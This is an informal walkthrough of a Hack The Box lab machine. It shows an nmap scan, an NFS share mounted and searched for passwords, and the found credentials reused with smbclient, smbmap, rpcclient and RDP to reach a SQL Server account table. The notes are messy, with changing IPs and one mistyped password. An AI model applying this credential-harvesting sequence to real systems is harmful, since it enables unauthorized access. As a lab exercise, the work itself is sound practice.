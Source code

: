 

For this one I do a nmap scan

```
[haxor@skid pen]$ nmap -sC -sV 10.129.18.157
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-22 02:56 UTC
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 2.95% done; ETC: 02:57 (0:00:33 remaining)
Stats: 0:01:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.96% done; ETC: 02:57 (0:00:00 remaining)
Stats: 0:01:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.96% done; ETC: 02:57 (0:00:00 remaining)
Nmap scan report for 10.129.18.157
Host is up (0.044s latency).
Not shown: 979 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
43/tcp    filtered whois
106/tcp   filtered pop3pw
111/tcp   open     rpcbind?
| rpcinfo:
|   program version    port/proto  service
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|_  100003  2,3,4       2049/tcp6  nfs
135/tcp   open     msrpc          Microsoft Windows RPC
139/tcp   open     netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?
524/tcp   filtered ncp
631/tcp   filtered ipp
1047/tcp  filtered neod1
1069/tcp  filtered cognex-insight
1076/tcp  filtered sns_credit
2048/tcp  filtered dls-monitor
2049/tcp  open     nfs            2-4 (RPC #100003)
2121/tcp  filtered ccproxy-ftp
2718/tcp  filtered pn-requester2
3372/tcp  filtered msdtc
3389/tcp  open     ms-wbt-server  Microsoft Terminal Services
|_ssl-date: 2025-02-22T02:58:03+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WINMEDIUM
| Not valid before: 2025-02-21T01:56:09
|_Not valid after:  2025-08-23T01:56:09
| rdp-ntlm-info:
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-22T02:57:53+00:00
5985/tcp  open     http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8300/tcp  filtered tmi
9943/tcp  filtered unknown
32783/tcp filtered unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-02-22T02:57:55
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required


```


I see NFS and smb. So thats what i try first

so I enumurate the NFS shares with

showmount -e 10.129.18.157

Which returns a /TechSupport Mount

https://medium.com/@karan_shergill/network-file-system-nfs-enumeration-exploitation-14c154a4d2c1

Heres a useful article

ALSO PLEASE KEEP IN MIND IF YOU GET ANY ERRORS YOU MUST USE SUDO 

sudo mkdir /tmp/mount3 && sudo mount 10.129.18.157:/TechSupport /tmp/mount3


so run this.

And for some reason i had to change to a root shell in order to into this mounted share.


And i see a large listing of tickets.


So among this i search for the string pass in all the files recursivley


[root@skid mount3]# grep -r "pass" .
./ticket4238791283782.txt: 6    password="lol123!mD"
./ticket4238791283782.txt:16    userpass {
[root@skid mount3]#


 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
Investigating the file more I find this.
pop3pw
remember their pop3pw server on port 106


I cant connect so lets maybe just try evil-winrm

No. That doesnt work. But SMB does



smbclient -L 10.129.18.157 -U alex%lol123\!mD


(1/1) Arming ConditionNeedsUpdate...
[root@skid mount3]# smbclient -L 10.129.18.157 -U alex%lol123\!mD
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	devshare        Disk
	IPC$            IPC       Remote IPC
	Users           Disk
tstream_smbXcli_np_destructor: cli_close failed on pipe srvsvc. Error was NT_STATUS_IO_TIMEOUT
SMB1 disabled -- no workgroup available
[root@skid mount3]#


Cool beans we connect to the devshare share and then get a file named important.txt

sa:87N1ns@slls83


```
rpcclient -U alex 10.129.18.157 # when prompted, enter: lol123!mD
```


/usr/bin/smbmap.py

```
SMBMap - Samba Share Enumerator v1.10.4 | Shawn Evans - ShawnDEvans@gmail.com<mailto:ShawnDEvans@gmail.com>
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.129.18.157:445	Name: 10.129.18.157       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	devshare                                          	READ, WRITE	
	IPC$                                              	READ ONLY	Remote IPC
	Users                                             	READ ONLY	
[*] Closed 1 connections
(venv) [haxor@skid pen]$
```

/usr/bin/smbmap.py -H 10.129.18.157 -u alex -p 'lol123!mD'

Inside of of the Users share I find the 

This is one of the ones where I feel a little dumb

xfreerdp /u:alex /p:'lol123!rD' /v:10.129.17.105






Now there is a SQL server I can launch. Guess what I got the password!!

*Make sure you launch as admin with these credentials*
*Highly suggest using pwn box*

sa:87N1ns@slls83
87N1ns@slls83


xfreerdp /u:alex /p:'lol123!mD' /v:10.129.82.230



Ok logging into this confused be just since you logged in as admin you can just login to WinMedium




In the final stage of the challenge, I focused on the SQL Server to extract the HTB user’s password. I connected to the SQL Server instance and switched to the “accounts” database, where I knew application credentials were stored. After listing the tables, I found one named **devsacc** that contained user information—specifically columns for id, name, and password. I then ran a query:
```

SELECT id, name, password
FROM devsacc
WHERE name = 'HTB';

```

And boom! 
